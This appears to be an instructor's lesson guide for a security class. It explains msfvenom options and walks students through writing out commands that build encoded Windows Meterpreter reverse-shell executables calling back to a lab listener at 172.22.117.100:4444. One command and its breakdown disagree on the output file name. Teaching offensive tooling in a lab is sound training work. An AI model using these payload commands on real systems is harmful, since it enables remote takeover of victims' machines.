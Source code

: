    - Without `msfvenom`, we would have to re-encode a payload by piping the `msfpayload` command through the `msfencode` command. In a single command, `msfvenom` does both actions and more.


#### msfvenom Command Structure

Now, we'll cover the basics of the `msfvenom` custom payload command options.

- Display the following command to the class:

   - `msfvenom -p windows/meterpreter/reverse_tcp -a x86 -e x86/shikata_ga_nai -f exe -o /tmp/hack.exe LHOST=172.22.117.100 LPORT=4444`

   - Break down the syntax:
      - `msfvenom`: Launches the `msfvenom` program.
      - `-p`: Indicates payload. 
      - `windows/meterpreter/reverse_tcp`: The Metasploit command module.
      - `-a x86`: Designates the architecture we will use. The default is `x86`.
      - `-e x86/shikata_ga_nai`: Designates the encoder we will use.
      - `-f exe`: Indicates the file type to create (in this case, `.exe`).
      - `-o /tmp/malware.exe`: Creates an output file, specifying the file name (`malware.exe`) and location (inside the `/tmp` directory).

- Next, display the command that we used in the previous lesson, and have students break it down themselves: 

    - `msfvenom -p windows/meterpreter/reverse_tcp LHOST=172.22.117.100 LPORT=4444 -f exe R > hack.exe`
      - `msfvenom`: Launches the `msfvenom` program.
      - `-p`: Indicates payload. 
      - `windows/meterpreter/reverse_tcp`: The Metasploit command module.
      - `-f exe`: Creates a `.exe` file type.


Explain that in the next activity, students will build their own custom command in an exploitation attack.

Pause to answer any questions before proceeding.

### 03. Class Do: msfvenom payloads (0:20)

We will now generate a custom payload with `msfvenom` and use it to gain a Meterpreter shell. 

- **Note:** Students should follow along with their own machine. They can follow along with the guide linked below: 

    - [Class Do: Custom Payload with `msfvenom`](Activities/01_MSFVenom/README.md)

1. Make sure you're in your home directory and then generate a Windows Meterpreter payload using the following commands:

    - `cd ~`

    - `msfvenom -p windows/meterpreter/reverse_tcp LHOST=172.22.117.100 LPORT=4444 -f exe > shell.exe`

    ![A screenshot depicts the results of the commands.](Images/msfvenom.PNG)

